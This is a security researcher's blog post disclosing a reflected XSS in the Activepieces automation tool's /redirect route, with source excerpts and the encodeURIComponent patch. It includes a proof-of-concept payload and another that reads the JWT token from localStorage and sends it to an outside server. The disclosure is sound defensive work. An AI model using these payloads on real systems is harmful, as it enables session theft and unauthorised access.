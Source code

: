 ```yaml
---
layout: default
title:  "XSS on Steroids | Gaining Unauthenticated Access"
date:   2023-04-10 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/xss-on-steroids/
---
```


{% raw %} 

# XSS on Steroids | Gaining Unauthenticated Access

[Activepieces](https://www.activepieces.com/) is an open-source business automation tool, aka the open-source alternative for *Zapier*, which helps individuals automate flows and their work in a flexible UI environment without the need to write code, for example, you can build automation with *Activepieces* to send a Slack notification for each new Trello card.  

In my effort to help the open-source world enhance its security posture, I decided to do vulnerability research, meanwhile testing, I identified a reflected XSS that helps unauthenticated attackers gain access by inducing victims to click on the specially crafted link. 

Following this article, we are going to explore the technical details of the vulnerability, exploit it, and showcase how it was mitigated. 

## Impact

Versions prior to `0.3.7` are vulnerable to **Reflected XSS**, which leverages unauthenticated attackers to gain access and possibly steal credentials for added pieces and flows.

## Deep Dive

The application is written with TypeScript, a Typed JavaScript framework. The [application](https://github.com/activepieces/activepieces) separates frontend and backend code in separate folders inside the **packages** directory.

```html
$> tree packages -L 1
packages
├── backend
├── ee
├── engine
├── frontend
├── pieces
└── shared
```

Moreover, the backend structure looks as follows, where it’s pretty obvious where the backend code and unit tests reside.

```html
$> tree packages/backend -L 2 
├── jest.config.ts
├── project.json
├── src
│   ├── app
│   ├── assets
│   └── main.ts
├── test
│   ├── resources
│   └── workers
├── tsconfig.app.json
├── tsconfig.json
├── tsconfig.spec.json
├── types
│   ├── fastify.d.ts
│   └── redis-lock.d.ts
└── webpack.config.js
```

Reviewing `main.ts` which from its name indicates the main function and application starter, indeed, we can see the starter function at the end of the file.

**activepieces/packages/backend/src/main.ts**

```jsx
const start = async () => {
try {
	.... 
	await app.listen({
            host: "0.0.0.0",
            port: 3000, 
				}); 
	}
}
```

the app object defines an interesting route `/redirect` that accepts user input from the *code* parameter. 

**activepieces/packages/backend/src/main.ts**

```jsx
app.get(
    "/redirect",
    async (
        request: FastifyRequest<{ Querystring: { code: string; } }>, reply
    ) => {
        const params = {
            "code": request.query.code
        };
        if (params.code === undefined) {
            reply.send("The code is missing in url");
        }
        else {
            reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${params['code']}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
        }
    }
);
```

As we can see, when the *code* parameter is set, the code flows to the *else* branch and returns an HTML containing the user input passed as a parameter to the *window.opener.postMessage(),* the parameter misses sanitization such as HTML encoding or URL encoding before it's reflected in the browser. 

Crafting a payload that closes the called function following it with our payload will eventually look as follows:

```
test' },'*')} else alert('poc');//
```

 This can be also leveraged to steal the authenticated JWT token:

```
test' },'*')} else { const xhr = new XMLHttpRequest();xhr.open('GET', '[https://](https://enxwjqx3bxw4.x.pipedream.net/)<your server>' + localStorage.getItem('token'));xhr.send(); }//
```

### Patch

The vulnerability was mitigated by passing the *params[’code’]* to `encodeURIComponent()`. 

```jsx
else {
 reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${encodeURIComponent(params['code'])}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
      }
```


{% endraw %}